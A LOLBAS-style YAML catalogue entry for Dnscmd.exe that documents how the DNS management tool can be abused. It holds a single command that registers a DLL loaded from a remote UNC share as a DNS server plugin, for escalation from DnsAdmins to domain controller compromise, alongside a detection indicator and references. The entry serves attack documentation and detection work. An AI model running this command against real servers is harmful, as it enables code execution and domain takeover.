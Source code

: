```yaml
---
Name: Dnscmd.exe
Description: A command-line interface for managing DNS servers
Author: "Oddvar Moe"
Created: "2018-05-25"
Commands:
  - Command: dnscmd.exe dc1.lab.int /config /serverlevelplugindll \\192.168.0.149\dll\wtf.dll
    Description: Adds a specially crafted DLL as a plug-in of the DNS Service. This command must be run on a DC by a user that is at least a member of the DnsAdmins group. See the reference links for DLL details.
    Usecase: Remotly inject dll to dns server
    Category: Execute
    Privileges: DNS admin
    MitreID: T1035
    MitreLink: https://attack.mitre.org/wiki/Technique/T1035
    OperatingSystem: Windows server
Full_Path:
  - Path: C:\Windows\System32\Dnscmd.exe
  - Path: C:\Windows\SysWOW64\Dnscmd.exe
Code_Sample:
  - Code:
Detection:
  - IOC: Dnscmd.exe loading dll from UNC path
Resources:
  - Link: https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83
  - Link: https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html
  - Link: https://github.com/dim0x69/dns-exe-persistance/tree/master/dns-plugindll-vcpp
  - Link: https://twitter.com/Hexacorn/status/994000792628719618
  - Link: http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html
Acknowledgement:
  - Person: Shay Ber
    Handle:
  - Person: Dimitrios Slamaris
    Handle: "@dim0x69"
  - Person: Nikhil SamratAshok
    Handle: "@nikhil_mitt"
---
```


